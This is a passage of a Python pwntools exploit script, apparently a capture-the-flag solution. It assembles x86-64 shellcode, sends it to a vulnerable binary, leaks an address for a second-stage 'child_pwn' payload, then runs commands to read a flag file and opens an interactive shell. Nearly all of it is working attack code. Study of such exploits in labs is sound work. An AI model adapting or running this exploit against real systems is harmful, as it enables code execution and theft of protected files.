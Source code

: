```python
{}
    pop rax

    add rsp, rax
    jmp loop
end:

""".format(sc64.read(0, 'rsp', 8),
           sc64.read(0, 'rdi', 'rax'),
           sc64.write(4, 'rdi', 'rax'),
           sc64.write(1, 'rdi', 'rax'))
sc += sc64.pushstr("bye_bye_")
sc += sc64.write(1, 'rsp', 8)
sc += sc64.infloop()
sc += sc64.exit(42)
log.info("using shellcode:\n" + sc)

sc = asm(sc)

vp = process(vulnbin)

context.log_level = 'debug'
vp.send(p32(len(sc)))
vp.send(sc)

log.info("received hello:\n" + vp.recv(8))
readaddr = u64(vp.recv(8))
log.info("received readaddr: " + hex(readaddr))

from child_pwn import child_pwn

childinput = child_pwn(readaddr)

vp.send(p64(len(childinput)))
vp.send(childinput)
vp.clean_and_log()
vp.send(p64(0))

vp.clean_and_log()
context.log_level = "info"
vp.sendline("id; pwd; ls -al; cat flag")
#vp.sendline("find / -name flag | xargs cat")
vp.interactive()

```
